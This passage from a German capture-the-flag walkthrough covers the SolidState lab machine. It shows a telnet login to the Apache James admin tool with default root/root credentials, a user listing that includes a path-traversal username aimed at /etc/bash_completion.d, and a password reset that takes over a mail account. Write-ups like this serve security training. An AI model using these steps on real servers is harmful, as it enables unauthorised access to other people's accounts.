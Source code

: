 [JAMES](https://de.wikipedia.org/wiki/Apache_James) ist ein Mailserver. Der Port 4555 mit dem Service **james-admin** sieht vielversprechend aus.

Versuchen wir doch mal eine Telnet-Verbindung zum Port 4555 aufzubauen.

```shell
root@kali:/home/SolidState# telnet 10.10.10.51 4555
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
```

Die Standard Credentials für das **JAMES Remote Administration Tool** ist root / root. Ein Glück, dass dieses noch nicht geändert wurde.

```shell
>>help
Currently implemented commands:
help display this help
listusers display existing accounts
[...]
setpassword [username] [password] sets a user's password
[...]
quit close connection
```

Die für uns interessanten Befehle sind **listusers** und **setpassword**.

```shell
listusers
Existing accounts 6
user: james
user: ../../../../../../../../etc/bash_completion.d
user: thomas
user: john
user: mindy
user: mailadmin
```

Wir sehen 6 verschiedene Accounts. Wir können nun die Passwörter dieser Accounts mit Hilfe von **setpassword [username] [password]** ändern, um uns als diese anmelden zu können.

```shell
>>setpassword mindy m10x
Password for mindy reset

>>quit
Bye
Connection closed by foreign host.
```
